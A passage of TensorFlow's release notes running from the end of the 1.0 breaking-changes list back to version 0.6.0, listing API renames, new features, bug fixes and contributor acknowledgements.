  * `tf.sparse_reduce_sum_sparse`: `reduction_axes` becomes `axis`
  * `tf.sparse_split`: `split_dim` becomes `axis`
* `tf.listdiff` has been renamed to `tf.setdiff1d` to match NumPy naming.
* `tf.inv` has been renamed to be `tf.reciprocal` (component-wise reciprocal)
  to avoid confusion with `np.inv` which is matrix inversion
* tf.round now uses banker's rounding (round to even) semantics to match NumPy.
* `tf.split` now takes arguments in a reversed order and with different
  keywords. In particular, we now match NumPy order as
  `tf.split(value, num_or_size_splits, axis)`.
* `tf.sparse_split` now takes arguments in reversed order and with different
  keywords. In particular we now match NumPy order as
  `tf.sparse_split(sp_input, num_split, axis)`. NOTE: we have temporarily
  made `tf.sparse_split` require keyword arguments.
* `tf.concat` now takes arguments in reversed order and with different keywords. In particular we now match NumPy order as `tf.concat(values, axis, name)`.
* `tf.image.decode_jpeg` by default uses the faster DCT method, sacrificing
  a little fidelity for improved speed. One can revert to the old
  behavior by specifying the attribute `dct_method='INTEGER_ACCURATE'`.
* `tf.complex_abs` has been removed from the Python interface. `tf.abs`
  supports complex tensors and should be used instead.
* In the C++ API (in tensorflow/cc), Input, Output, etc. have moved
  from the tensorflow::ops namespace to tensorflow.
* Template.`var_scope` property renamed to `.variable_scope`
* SyncReplicasOptimizer is removed and SyncReplicasOptimizerV2 renamed to SyncReplicasOptimizer.
* `tf.zeros_initializer()` and `tf.ones_initializer()` now return a callable
  that must be called with initializer arguments, in your code replace
  `tf.zeros_initializer` with `tf.zeros_initializer()`.
* `SparseTensor.shape` has been renamed to `SparseTensor.dense_shape`.  Same for
  `SparseTensorValue.shape`.
* Replace tf.scalar_summary, tf.histogram_summary, tf.audio_summary, tf.image_summary with tf.summary.scalar, tf.summary.histogram, tf.summary.audio, tf.summary.image, respectively. The new summary ops take name rather than tag as their first argument, meaning summary ops now respect TensorFlow name scopes.
* Replace tf.train.SummaryWriter and tf.train.SummaryWriterCache with tf.summary.FileWriter and tf.summary.FileWriterCache.
* Removes RegisterShape from public API. Use C++ shape function registration
  instead.
* Deprecated `_ref` dtypes from the python API.
* In the C++ API (in tensorflow/cc), Input, Output, etc. have moved
  from the tensorflow::ops namespace to tensorflow.
* Change arg order for `{softmax,sparse_softmax,sigmoid}_cross_entropy_with_logits` to be (labels, predictions), and force use of named args.
* tf.nn.rnn_cell.* and most functions in tf.nn.rnn.* (with the exception of dynamic_rnn and raw_rnn) are temporarily in tf.contrib.rnn.  They will be moved back into core for TF 1.2.
* `tf.nn.sampled_softmax_loss` and `tf.nn.nce_loss` have both changed their API such that you need to switch the `inputs, labels` to `labels, inputs` parameters.
* The shape keyword argument of the `SparseTensor` constructor changes its name to `dense_shape` between Tensorflow 0.12 and Tensorflow 1.0.

## Bug Fixes and Other Changes
* Numerous C++ API updates.
* New op: `parallel_stack`.
* Introducing common tf io compression options constants for
  RecordReader/RecordWriter.
* Add `sparse_column_with_vocabulary_file`, to specify a feature column that
  transform string features to IDs, where the mapping is defined by a vocabulary
  file.
* Added `index_to_string_table` which returns a lookup table that maps indices to
  strings.
* Add `string_to_index_table`, which returns a lookup table that matches strings
  to indices.
* Add a `ParallelForWithWorkerId` function.
* Add `string_to_index_table`, which returns a lookup table that matches strings
  to indices.
* Support restore session from checkpoint files in v2 in `contrib/session_bundle`.
* Added a tf.contrib.image.rotate function for arbitrary angles.
* Added `tf.contrib.framework.filter_variables` as a convenience function to
  filter lists of variables based on regular expressions.
* `make_template()` takes an optional `custom_getter_ param`.
* Added comment about how existing directories are handled by
  `recursive_create_dir`.
* Added an op for QR factorizations.
* Divides and mods in Python API now use flooring (Python) semantics.
* Android: pre-built libs are now built nightly.
* Android: cmake/gradle build for TensorFlow Inference library under
  `contrib/android/cmake`
* Android: Much more robust Session initialization code.
* Android: TF stats now exposed directly in demo and log when debug mode is
  active
* Android: new/better README.md documentation
* saved_model is available as `tf.saved_model`.
* Empty op is now stateful.
* Improve speed of scatter_update on the cpu for ASSIGN operations.
* Change `reduce_join` to treat `reduction_indices` in the same way as other `reduce_` ops.
* Move `TensorForestEstimator` to `contrib/tensor_forest`.
* Enable compiler optimizations by default and allow configuration in configure.
* `tf.divide` now honors the name field.
* Make metrics weight broadcasting more strict.
* Add new queue-like `StagingArea` and new ops: `stage` and `unstage`.
* Enable inplace update ops for strings on CPU. Speed up string concat.

## Thanks to our Contributors

This release contains contributions from many people at Google, as well as:

Aaron Hu, Abhishek Aggarwal, Adam Michael, Adriano Carmezim, @AfirSraftGarrier,
Alexander Novikov, Alexander Rosenberg Johansen, Andrew Gibiansky, Andrew Hundt,
Anish Shah, Anton Loss, @b0noI, @BoyuanJiang, Carl Thomé, Chad Kennedy, Comic
Chang, Connor Braa, Daniel N. Lang, Daniel Trebbien,
@danielgordon10, Darcy Liu, Darren Garvey, Dmitri Lapin, Eron Wright, Evan
Cofer, Fabrizio Milo, Finbarr Timbers, Franck Dernoncourt, Garrett Smith,
@guschmue, Hao Wei, Henrik Holst, Huazuo Gao, @Ian, @Issac, Jacob Israel,
Jangsoo Park, Jin Kim, Jingtian Peng, John Pope, Kye Bostelmann, Liangliang He,
Ling Zhang, Luheng He, Luke Iwanski, @lvli, Michael Basilyan, Mihir Patel,
Mikalai Drabovich, Morten Just, @newge, Nick Butlin, Nishant Shukla,
Pengfei Ni, Przemyslaw Tredak, @rasbt, @Ronny, Rudolf Rosa, @RustingSword,
Sam Abrahams, Sam Putnam, @SeongAhJo, Shi Jiaxin, @skavulya, Steffen MüLler,
@TheUSER123, @tiriplicamihai, @vhasanov, Victor Costan, Vit Stepanovs,
Wangda Tan, Wenjian Huang, Xingdong Zuo, Yaroslav Bulatov, Yota Toyama,
Yuan (Terry) Tang, Yuxin Wu

We are also grateful to all who filed issues or helped resolve them, asked and
answered questions, and were part of inspiring discussions.


# Release 0.12.0

## Major Features and Improvements

* TensorFlow now builds and runs on Microsoft Windows (tested on Windows 10,
  Windows 7, and Windows Server 2016). Supported languages include Python (via a
  pip package) and C++. CUDA 8.0 and cuDNN 5.1 are supported for GPU
  acceleration. Known limitations include: It is not currently possible to load
  a custom op library. The GCS and HDFS file systems are not currently
  supported. The following ops are not currently implemented:
  Dequantize, QuantizeAndDequantize, QuantizedAvgPool,
  QuantizedBatchNomWithGlobalNormalization, QuantizedBiasAdd, QuantizedConcat,
  QuantizedConv2D, QuantizedMatmul, QuantizedMaxPool,
  QuantizeDownAndShrinkRange, QuantizedRelu, QuantizedRelu6, QuantizedReshape,
  QuantizeV2, RequantizationRange, and Requantize.
* Go: Experimental API in Go to create and execute graphs
  (https://godoc.org/github.com/tensorflow/tensorflow/tensorflow/go)
* New checkpoint format becomes the default in `tf.train.Saver`. Old V1
  checkpoints continue to be readable; controlled by the `write_version`
  argument, `tf.train.Saver` now by default writes out in the new V2
  format. It significantly reduces the peak memory required and latency
  incurred during restore.
* Added a new library for library of matrix-free (iterative) solvers for linear
  equations, linear least-squares, eigenvalues and singular values in
  tensorflow/contrib/solvers. Initial version has lanczos bidiagonalization,
  conjugate gradients and CGLS.
* Added gradients for `matrix_solve_ls` and `self_adjoint_eig`.
* Large cleanup to add second order gradient for ops with C++ gradients and
  improve existing gradients such that most ops can now be differentiated
  multiple times.
* Added a solver for ordinary differential equations,
  `tf.contrib.integrate.odeint`.
* New contrib module for tensors with named axes, `tf.contrib.labeled_tensor`.
* Visualization of embeddings in TensorBoard.

## Breaking Changes to the API

* `BusAdjacency` enum replaced with a protocol buffer `DeviceLocality`.  PCI bus
  indexing now starts from 1 instead of 0, and `bus_id==0` is used where
  previously `BUS_ANY` was used.
* `Env::FileExists` and `FileSystem::FileExists` now return a tensorflow::Status
  instead of a bool. Any callers to this function can be converted to a bool
  by adding .ok() to the call.
* The C API type `TF_SessionWithGraph` has been renamed to `TF_Session`,
  indicating its preferred use in language bindings for TensorFlow.
  What was previously `TF_Session` has been renamed to `TF_DeprecatedSession`.
* Renamed `TF_Port` to `TF_Output` in the C API.
* Removes RegisterShape from public API. Use C++ shape function registration instead.
  indexing now starts from 1 instead of 0, and `bus_id==0` is used where
  previously `BUS_ANY` was used.
* Most RNN cells and RNN functions now use different variable scopes to be
  consistent with layers (`tf.contrib.layers`).  This means old checkpoints
  written using this code will not load after this change without providing
  `Saver` a list of variable renames.  Examples of variable scope changes
  include `RNN` -> `rnn` in `tf.nn.rnn`, `tf.nn.dynamic_rnn` and moving from
  `Linear/Matrix` -> `weights` and `Linear/Bias` -> `biases` in most RNN cells.
* Deprecated tf.select op. tf.where should be used instead.
* `SparseTensor.shape` has been renamed to `SparseTensor.dense_shape`.  Same for
  `SparseTensorValue.shape`.
* `Env::FileExists` and `FileSystem::FileExists` now return a
  `tensorflow::Status` instead of a bool. Any callers to this function can be
  converted to a bool by adding `.ok()` to the call.
* C API: Type `TF_SessionWithGraph` has been renamed to `TF_Session`, indicating
  its preferred use in language bindings for TensorFlow. What was previously
  `TF_Session` has been renamed to `TF_DeprecatedSession`.
* C API: Renamed `TF_Port` to `TF_Output`.
* C API: The caller retains ownership of `TF_Tensor` objects provided to
  `TF_Run`, `TF_SessionRun`, `TF_SetAttrTensor` etc.
* Renamed `tf.image.per_image_whitening()` to
  `tf.image.per_image_standardization()`
* Move Summary protobuf constructors to `tf.summary` submodule.
* Deprecate `histogram_summary`, `audio_summary`, `scalar_summary`,
  `image_summary`, `merge_summary`, and `merge_all_summaries`.
* Combined `batch_*` and regular version of linear algebra and FFT ops. The
  regular op now handles batches as well. All `batch_*` Python interfaces were
  removed.
* `tf.all_variables`, `tf.VARIABLES` and `tf.initialize_all_variables` renamed
  to `tf.global_variables`, `tf.GLOBAL_VARIABLES` and
  `tf.global_variables_initializer` respectively.
* `tf.zeros_initializer()` and `tf.ones_initializer()` now return a callable
  that must be called with initializer arguments, in your code replace
  `tf.zeros_initializer` with `tf.zeros_initializer()`

## Bug Fixes and Other Changes

* Use threadsafe version of `lgamma` function.
* Fix `tf.sqrt` handling of negative arguments.
* Fixed bug causing incorrect number of threads to be used for multi-threaded
  benchmarks.
* Performance optimizations for `batch_matmul` on multi-core CPUs.
* Improve trace, `matrix_set_diag`, `matrix_diag_part` and their gradients to
  work for rectangular matrices.
* Support for SVD of complex valued matrices.


## Thanks to our Contributors

This release contains contributions from many people at Google, as well as:

@a7744hsc, Abhi Agg, @admcrae, Adriano Carmezim, Aki Sukegawa, Alex Kendall,
Alexander Rosenberg Johansen, @amcrae, Amlan Kar, Andre Simpelo, Andreas Eberle,
Andrew Hundt, Arnaud Lenglet, @b0noI, Balachander Ramachandran, Ben Barsdell,
Ben Guidarelli, Benjamin Mularczyk, Burness Duan, @c0g, Changming Sun,
@chanis, Corey Wharton, Dan J, Daniel Trebbien, Darren Garvey, David Brailovsky,
David Jones, Di Zeng, @DjangoPeng, Dr. Kashif Rasul, @drag0, Fabrizio (Misto)
Milo, FabríCio Ceschin, @fp, @Ghedeon, @guschmue, Gökçen Eraslan, Haosdent
Huang, Haroen Viaene, Harold Cooper, Henrik Holst, @hoangmit, Ivan Ukhov, Javier
Dehesa, Jingtian Peng, Jithin Odattu, Joan Pastor, Johan Mathe, Johannes Mayer,
Jongwook Choi, Justus Schwabedal, Kai Wolf, Kamil Hryniewicz, Kamran Amini,
Karen Brems, Karl Lattimer, @kborer, Ken Shirriff, Kevin Rose, Larissa Laich,
Laurent Mazare, Leonard Lee, Liang-Chi Hsieh, Liangliang He, Luke Iwanski,
Marek Kolodziej, Moustafa Alzantot, @MrQianjinsi, @nagachika, Neil Han, Nick
Meehan, Niels Ole Salscheider, Nikhil Mishra, @nschuc, Ondrej Skopek, OndřEj
Filip, @OscarDPan, Pablo Moyano, Przemyslaw Tredak, @qitaishui, @Quarazy,
@raix852, Philipp Helo, Sam Abrahams, @SriramRamesh, Till Hoffmann, Tushar Soni,
@tvn, @tyfkda, Uwe Schmidt, Victor Villas, Vit Stepanovs, Vladislav Gubarev,
@wujingyue, Xuesong Yang, Yi Liu, Yilei Yang, @youyou3, Yuan (Terry) Tang,
Yuming Wang, Zafar Takhirov, @zhongyuk, Ziming Dong, @guotong1988

We are also grateful to all who filed issues or helped resolve them, asked and
answered questions, and were part of inspiring discussions.

# Release 0.11.0

## Major Features and Improvements

* CUDA 8 support.
* cuDNN 5 support.
* HDFS Support.
* Adds Fused LSTM support via cuDNN 5 in `tensorflow/contrib/cudnn_rnn`.
* Improved support for NumPy style basic slicing including non-1 strides,
  ellipses, newaxis, and negative indices. For example complicated expressions
  like `foo[1, 2:4, tf.newaxis, ..., :-3:-1, :]` are now supported. In addition
  we have preliminary (non-broadcasting) support for sliced assignment to
  variables. In particular one can write `var[1:3].assign([1,11,111])`.
* Deprecated `tf.op_scope` and `tf.variable_op_scope` in favor of a unified `tf.name_scope` and `tf.variable_scope`. The new argument order of `tf.variable_scope` is incompatible with previous versions.
* Introducing `core/util/tensor_bundle` module: a module to efficiently
  serialize/deserialize tensors to disk.  Will be used in TF's new checkpoint
  format.
* Added tf.svd for computing the singular value decomposition (SVD) of dense
  matrices or batches of matrices (CPU only).
* Added gradients for eigenvalues and eigenvectors computed using
  `self_adjoint_eig` or `self_adjoint_eigvals`.
* Eliminated `batch_*` methods for most linear algebra and FFT ops and promoted
  the non-batch version of the ops to handle batches of matrices.
* Tracing/timeline support for distributed runtime (no GPU profiler yet).
* C API gives access to inferred shapes with `TF_GraphGetTensorNumDims` and
  `TF_GraphGetTensorShape`.
* Shape functions for core ops have moved to C++ via
  `REGISTER_OP(...).SetShapeFn(...)`.  Python shape inference RegisterShape calls
  use the C++ shape functions with `common_shapes.call_cpp_shape_fn`.  A future
  release will remove `RegisterShape` from python.


## Bug Fixes and Other Changes

* Documentation now includes operator overloads on Tensor and Variable.
* `tensorflow.__git_version__` now allows users to identify the version of the
  code that TensorFlow was compiled with. We also have
  `tensorflow.__git_compiler__` which identifies the compiler used to compile
  TensorFlow's core.
* Improved multi-threaded performance of `batch_matmul`.
* LSTMCell, BasicLSTMCell, and MultiRNNCell constructors now default to
  `state_is_tuple=True`.  For a quick fix while transitioning to the new
  default, simply pass the argument `state_is_tuple=False`.
* DeviceFactory's AddDevices and CreateDevices functions now return
  a Status instead of void.
* Int32 elements of list(type) arguments are no longer placed in host memory by
  default. If necessary, a list(type) argument to a kernel can be placed in host
  memory using a HostMemory annotation.
* `uniform_unit_scaling_initializer()` no longer takes a `full_shape` arg,
  instead relying on the partition info passed to the initializer function when
  it's called.
* The NodeDef protocol message is now defined in its own file `node_def.proto`
  `instead of graph.proto`.
* `ops.NoGradient` was renamed `ops.NotDifferentiable`. `ops.NoGradient` will
  be removed soon.
* `dot.h` / DotGraph was removed (it was an early analysis tool prior
  to TensorBoard, no longer that useful).  It remains in history
  should someone find the code useful.
* re2 / regexp.h was removed from being a public interface of TF.
  Should users need regular expressions, they should depend on the RE2
  library directly rather than via TensorFlow.

## Thanks to our Contributors

This release contains contributions from many people at Google, as well as:

Abid K, @afshinrahimi, @AidanGG, Ajay Rao, Aki Sukegawa, Alex Rothberg,
Alexander Rosenberg Johansen, Andrew Gibiansky, Andrew Thomas, @Appleholic,
Bastiaan Quast, Ben Dilday, Bofu Chen, Brandon Amos, Bryon Gloden, Cissp®,
@chanis, Chenyang Liu, Corey Wharton, Daeyun Shin, Daniel Julius Lasiman, Daniel
Waterworth, Danijar Hafner, Darren Garvey, Denis Gorbachev, @DjangoPeng,
Egor-Krivov, Elia Palme, Eric Platon, Fabrizio Milo, Gaetan Semet,
Georg Nebehay, Gu Wang, Gustav Larsson, @haosdent, Harold Cooper, Hw-Zz,
@ichuang, Igor Babuschkin, Igor Macedo Quintanilha, Ilya Edrenkin, @ironhead,
Jakub Kolodziejczyk, Jennifer Guo, Jihun Choi, Jonas Rauber, Josh Bleecher
Snyder, @jpangburn, Jules Gagnon-Marchand, Karen Brems, @kborer, Kirill Bobyrev,
Laurent Mazare, Longqi Yang, Malith Yapa, Maniteja Nandana, Martin Englund,
Matthias Winkelmann, @mecab, Mu-Ik Jeon, Nand Dalal, Niels Ole Salscheider,
Nikhil Mishra, Park Jiin, Pieter De Rijk, @raix852, Ritwik Gupta, Sahil Sharma,
Sangheum Hwang, @SergejsRk, Shinichiro Hamaji, Simon Denel, @Steve, @suiyuan2009,
Tiago Jorge, Tijmen Tieleman, @tvn, @tyfkda, Wang Yang, Wei-Ting Kuo, Wenjian
Huang, Yan Chen, @YenChenLin, Yuan (Terry) Tang, Yuncheng Li, Yunfeng Wang, Zack
Polizzi, @zhongzyd, Ziming Dong, @perhapszzy

We are also grateful to all who filed issues or helped resolve them, asked and
answered questions, and were part of inspiring discussions.

# Release 0.10.0

## Major Features and Improvements

* Added support for C++ shape inference
* Added graph-construction C API
* Major revision to the graph-construction C++ API
* Support makefile build for iOS
* Added Mac GPU support
* Full version of TF-Slim available as `tf.contrib.slim`
* Added k-Means clustering and WALS matrix factorization

## Bug Fixes and Other Changes

* Allow gradient computation for scalar values.
* Performance improvements for gRPC
* Improved support for fp16
* New high-level ops in tf.contrib.{layers,metrics}
* New features for TensorBoard, such as shape display, exponential smoothing
* Faster and more stable Google Cloud Storage (GCS) filesystem support
* Support for zlib compression and decompression for TFRecordReader and TFRecordWriter
* Support for reading (animated) GIFs
* Improved support for SparseTensor
* Added support for more probability distributions (Dirichlet, Beta, Bernoulli, etc.)
* Added Python interfaces to reset resource containers.
* Many bugfixes and performance improvements
* Many documentation fixes

## Thanks to our Contributors

This release contains contributions from many people at Google, as well as:

Alex Rothberg, Andrew Royer, Austin Marshall, @BlackCoal, Bob Adolf, Brian Diesel, Charles-Emmanuel Dias, @chemelnucfin, Chris Lesniewski, Daeyun Shin, Daniel Rodriguez, Danijar Hafner, Darcy Liu, Kristinn R. Thórisson, Daniel Castro, Dmitry Savintsev, Kashif Rasul, Dylan Paiton, Emmanuel T. Odeke, Ernest Grzybowski, Gavin Sherry, Gideon Dresdner, Gregory King, Harold Cooper, @heinzbeinz, Henry Saputra, Huarong Huo, Huazuo Gao, Igor Babuschkin, Igor Macedo Quintanilha, Ivan Ukhov, James Fysh, Jan Wilken Dörrie, Jihun Choi, Johnny Lim, Jonathan Raiman, Justin Francis, @lilac, Li Yi, Marc Khoury, Marco Marchesi, Max Melnick, Micael Carvalho, @mikowals, Mostafa Gazar, Nico Galoppo, Nishant Agrawal, Petr Janda, Yuncheng Li, @raix852, Robert Rose, @Robin-des-Bois, Rohit Girdhar, Sam Abrahams, satok16, Sergey Kishchenko, Sharkd Tu, @shotat, Siddharth Agrawal, Simon Denel, @sono-bfio, SunYeop Lee, Thijs Vogels, @tobegit3hub, @Undo1, Wang Yang, Wenjian Huang, Yaroslav Bulatov, Yuan Tang, Yunfeng Wang, Ziming Dong

We are also grateful to all who filed issues or helped resolve them, asked and
answered questions, and were part of inspiring discussions.

# Release 0.9.0

## Major Features and Improvements

* Python 3.5 support and binaries
* Added iOS support
* Added support for processing on GPUs on MacOS
* Added makefile for better cross-platform build support (C API only)
* fp16 support and improved complex128 support for many ops
* Higher level functionality in contrib.{layers,losses,metrics,learn}
* More features to Tensorboard
* Improved support for string embedding and sparse features
* The RNN api is finally "official" (see, e.g., `tf.nn.dynamic_rnn`,
  `tf.nn.rnn`, and the classes in `tf.nn.rnn_cell`).
* TensorBoard now has an Audio Dashboard, with associated audio summaries.

## Bug Fixes and Other Changes

* Turned on CuDNN Autotune.
* Added support for using third-party Python optimization algorithms (contrib.opt).
* Google Cloud Storage filesystem support.
* HDF5 support
* Add support for 3d convolutions and pooling.
* Update gRPC release to 0.14.
* Eigen version upgrade.
* Switch to eigen thread pool
* `tf.nn.moments()` now accepts a `shift` argument. Shifting by a good estimate
  of the mean improves numerical stability. Also changes the behavior of the
  `shift` argument to `tf.nn.sufficient_statistics()`.
* Performance improvements
* Many bugfixes
* Many documentation fixes
* TensorBoard fixes: graphs with only one data point, Nan values,
  reload button and auto-reload, tooltips in scalar charts, run
  filtering, stable colors
* Tensorboard graph visualizer now supports run metadata. Clicking on nodes
  while viewing a stats for a particular run will show runtime statistics, such
  as memory or compute usage. Unused nodes will be faded out.

## Thanks to our Contributors

This release contains contributions from many people at Google, as well as:

Aaron Schumacher, Aidan Dang, Akihiko ITOH, Aki Sukegawa, Arbit Chen, Aziz Alto, Danijar Hafner, Erik Erwitt, Fabrizio Milo, Felix Maximilian Möller, Henry Saputra, Sung Kim, Igor Babuschkin, Jan Zikes, Jeremy Barnes, Jesper Steen Møller, Johannes Mayer, Justin Harris, Kashif Rasul, Kevin Robinson, Loo Rong Jie, Lucas Moura, Łukasz Bieniasz-Krzywiec, Mario Cho, Maxim Grechkin, Michael Heilman, Mostafa Rahmani, Mourad Mourafiq, @ninotoshi, Orion Reblitz-Richardson, Yuncheng Li, @raoqiyu, Robert DiPietro, Sam Abrahams, Sebastian Raschka, Siddharth Agrawal, @snakecharmer1024, Stephen Roller, Sung Kim, SunYeop Lee, Thijs Vogels, Till Hoffmann, Victor Melo, Ville Kallioniemi, Waleed Abdulla, Wenjian Huang, Yaroslav Bulatov, Yeison Rodriguez, Yuan Tang, Yuxin Wu, @zhongzyd, Ziming Dong, Zohar Jackson

We are also grateful to all who filed issues or helped resolve them, asked and
answered questions, and were part of inspiring discussions.

# Release 0.8.0

## Major Features and Improvements

* Added a distributed runtime using GRPC
* Move skflow to `contrib/learn`
* Better linear optimizer in `contrib/linear_optimizer`
* Random forest implementation in `contrib/tensor_forest`
* CTC loss and decoders in `contrib/ctc`
* Basic support for `half` data type
* Better support for loading user ops (see examples in `contrib/`)
* Allow use of (non-blocking) Eigen threadpool with `TENSORFLOW_USE_EIGEN_THREADPOOL` define
* Add an extension mechanism for adding network file system support
* TensorBoard displays metadata stats (running time, memory usage and device used) and tensor shapes

## Bug Fixes and Other Changes

* Utility for inspecting checkpoints
* Basic tracing and timeline support
* Allow building against cuDNN 5 (not incl. RNN/LSTM support)
* Added instructions and binaries for ProtoBuf library with fast serialization and without 64MB limit
* Added special functions
* `bool`-strictness: Tensors have to be explicitly compared to `None`
* Shape strictness: all fed values must have a shape that is compatible with the tensor they are replacing
* Exposed `tf.while_loop` (deprecated `control_flow_ops.While`)
* run() now takes RunOptions and RunMetadata, which enable timing stats
* Fixed lots of potential overflow problems in op kernels
* Various performance improvements, especially for RNNs and convolutions
* Many bugfixes
* Nightly builds, tutorial tests, many test improvements
* New examples: transfer learning and deepdream ipython notebook
* Added tutorials, many documentation fixes.

## Thanks to our Contributors

This release contains contributions from many people at Google, as well as:

Abhinav Upadhyay, Aggelos Avgerinos, Alan Wu, Alexander G. de G. Matthews, Aleksandr Yahnev, @amchercashin, Andy Kitchen, Aurelien Geron, Awni Hannun, @BanditCat, Bas Veeling, Cameron Chen, @cg31, Cheng-Lung Sung, Christopher Bonnett, Dan Becker, Dan Van Boxel, Daniel Golden, Danijar Hafner, Danny Goodman, Dave Decker, David Dao, David Kretch, Dongjoon Hyun, Dustin Dorroh, @e-lin, Eurico Doirado, Erik Erwitt, Fabrizio Milo, @gaohuazuo, Iblis Lin, Igor Babuschkin, Isaac Hodes, Isaac Turner, Iván Vallés, J Yegerlehner, Jack Zhang, James Wexler, Jan Zikes, Jay Young, Jeff Hodges, @jmtatsch, Johnny Lim, Jonas Meinertz Hansen, Kanit Wongsuphasawat, Kashif Rasul, Ken Shirriff, Kenneth Mitchner, Kenta Yonekura, Konrad Magnusson, Konstantin Lopuhin, @lahwran, @lekaha, @liyongsea, Lucas Adams, @makseq, Mandeep Singh, @manipopopo, Mark Amery, Memo Akten, Michael Heilman, Michael Peteuil, Nathan Daly, Nicolas Fauchereau, @ninotoshi, Olav Nymoen, @panmari, @papelita1234, Pedro Lopes, Pranav Sailesh Mani, RJ Ryan, Rob Culliton, Robert DiPietro, @ronrest, Sam Abrahams, Sarath Shekkizhar, Scott Graham, Sebastian Raschka, Sung Kim, Surya Bhupatiraju, Syed Ahmed, Till Hoffmann, @timsl, @urimend, @vesnica, Vlad Frolov, Vlad Zagorodniy, Wei-Ting Kuo, Wenjian Huang, William Dmitri Breaden Madden, Wladimir Schmidt, Yuan Tang, Yuwen Yan, Yuxin Wu, Yuya Kusakabe, @zhongzyd, @znah.

We are also grateful to all who filed issues or helped resolve them, asked and
answered questions, and were part of inspiring discussions.


# Release 0.7.1

## Bug Fixes and Other Changes

* Added gfile.Open and gfile.Copy, used by input_data.py.
* Fixed Saver bug when MakeDirs tried to create empty directory.
* GPU Pip wheels are built with cuda 7.5 and cudnn-v4, making them
  required for the binary releases. Lower versions of cuda/cudnn can
  be supported by installing from sources and setting the options
  during ./configure
* Fix dataset encoding example for Python3 (@danijar)
* Fix PIP installation by not packaging protobuf as part of wheel,
  require protobuf 3.0.0b2.
* Fix Mac pip installation of numpy by requiring pip >= 1.10.1.
* Improvements and fixes to Docker image.


# Release 0.7.0

## Major Features and Improvements

* Allow using any installed Cuda >= 7.0 and cuDNN >= R2, and add support
  for cuDNN R4
* Added a `contrib/` directory for unsupported or experimental features,
  including higher level `layers` module
* Added an easy way to add and dynamically load user-defined ops
* Built out a good suite of tests, things should break less!
* Added `MetaGraphDef` which makes it easier to save graphs with metadata
* Added assignments for "Deep Learning with TensorFlow" udacity course


## Bug Fixes and Other Changes

* Added a versioning framework for `GraphDef`s to ensure compatibility
* Enforced Python 3 compatibility
* Internal changes now show up as sensibly separated commits
* Open-sourced the doc generator
* Un-fork Eigen
* Simplified the `BUILD` files and cleaned up C++ headers
* TensorFlow can now be used as a submodule in another bazel build
* New ops (e.g., `*fft`, `*_matrix_solve`)
* Support for more data types in many ops
* Performance improvements
* Various bugfixes
* Documentation fixes and improvements


## Breaking Changes to the API

* `AdjustContrast` kernel deprecated, new kernel `AdjustContrastv2` takes and
  outputs float only. `adjust_contrast` now takes all data types.
* `adjust_brightness`'s `delta` argument is now always assumed to be in `[0,1]`
  (as is the norm for images in floating point formats), independent of the
  data type of the input image.
* The image processing ops do not take `min` and `max` inputs any more, casting
  safety is handled by `saturate_cast`, which makes sure over- and underflows
  are handled before casting to data types with smaller ranges.
* For C++ API users: `IsLegacyScalar` and `IsLegacyVector` are now gone from
  `TensorShapeUtils` since TensorFlow is scalar strict within Google (for
  example, the shape argument to `tf.reshape` can't be a scalar anymore).  The
  open source release was already scalar strict, so outside Google `IsScalar`
  and `IsVector` are exact replacements.
* The following files are being removed from `tensorflow/core/public/`:
    * `env.h` -> `../platform/env.h`
    * `status.h` -> `../lib/core/status.h`
    * `tensor.h` -> `../framework/tensor.h`
    * `tensor_shape.h` -> `../framework/tensor_shape.h`
    * `partial_tensor_shape.h` -> `../framework/partial_tensor_shape.h`
    * `tensorflow_server.h` deleted
* For C++ API users: `TensorShape::ShortDebugString` has been renamed to
  `DebugString`, and the previous `DebugString` behavior is gone (it was
  needlessly verbose and produced a confusing empty string for scalars).
* `GraphOptions.skip_common_subexpression_elimination` has been removed. All
  graph optimizer options are now specified via
  `GraphOptions.OptimizerOptions`.
* `ASSERT_OK` / `EXPECT_OK` macros conflicted with external projects, so they
  were renamed `TF_ASSERT_OK`, `TF_EXPECT_OK`.  The existing macros are
  currently maintained for short-term compatibility but will be removed.
* The non-public `nn.rnn` and the various `nn.seq2seq` methods now return
  just the final state instead of the list of all states.
* `tf.scatter_update` now no longer guarantees that lexicographically largest
  index be used for update when duplicate entries exist.
* `tf.image.random_crop(image, [height, width])` is now
  `tf.random_crop(image, [height, width, depth])`, and `tf.random_crop` works
  for any rank (not just 3-D images).  The C++ `RandomCrop` op has been replaced
  with pure Python.
* Renamed `tf.test.GetTempDir` and `tf.test.IsBuiltWithCuda` to
  `tf.test.get_temp_dir` and `tf.test.is_built_with_cuda` for PEP-8
  compatibility.
* `parse_example`'s interface has changed, the old interface is accessible in
  `legacy_parse_example` (same for related functions).
* New `Variable`s are not added to the same collection several times even if
  a list with duplicates is passed to the constructor.
* The Python API will now properly set the `list` member of `AttrValue` in
  constructed `GraphDef` messages for empty lists.  The serialization of some
  graphs will change, but the change is both forwards and backwards compatible.
  It will break tests that compare a generated `GraphDef` to a golden serialized
  `GraphDef` (which is discouraged).


## Thanks to our Contributors

This release contains contributions from many people at Google, as well as:

Akiomi Kamakura, Alex Vig, Alexander Rosenberg Johansen, Andre Cruz, Arun Ahuja,
Bart Coppens, Bernardo Pires, Carl Vondrick, Cesar Salgado, Chen Yu,
Christian Jauvin, Damien Aymeric, Dan Vanderkam, Denny Britz, Dongjoon Hyun,
Eren Güven, Erik Erwitt, Fabrizio Milo, G. Hussain Chinoy, Jim Fleming,
Joao Felipe Santos, Jonas Meinertz Hansen, Joshi Rekha, Julian Viereck,
Keiji Ariyama, Kenton Lee, Krishna Sankar, Kristina Chodorow, Linchao Zhu,
Lukas Krecan, Mark Borgerding, Mark Daoust, Moussa Taifi,
Nathan Howell, Naveen Sundar Govindarajulu, Nick Sweeting, Niklas Riekenbrauck,
Olivier Grisel, Patrick Christ, Povilas Liubauskas, Rainer Wasserfuhr,
Romain Thouvenin, Sagan Bolliger, Sam Abrahams, Taehoon Kim, Timothy J Laurent,
Vlad Zavidovych, Yangqing Jia, Yi-Lin Juang, Yuxin Wu, Zachary Lipton,
Zero Chen, Alan Wu, @brchiu, @emmjaykay, @jalammar, @Mandar-Shinde,
@nsipplswezey, @ninotoshi, @panmari, @prolearner and @rizzomichaelg.

We are also grateful to all who filed issues or helped resolve them, asked and
answered questions, and were part of inspiring discussions.


# Release 0.6.0

## Major Features and Improvements

* Python 3.3+ support via changes to python codebase and ability
  to specify python version via ./configure.

* Some improvements to GPU performance and memory usage:
  [convnet benchmarks](https://github.com/soumith/convnet-benchmarks/issues/66)
  roughly equivalent with native cudnn v2 performance.  Improvements mostly due
  to moving to 32-bit indices, faster shuffling kernels.  More improvements to
  come in later releases.


## Bug Fixes

* Lots of fixes to documentation and tutorials, many contributed
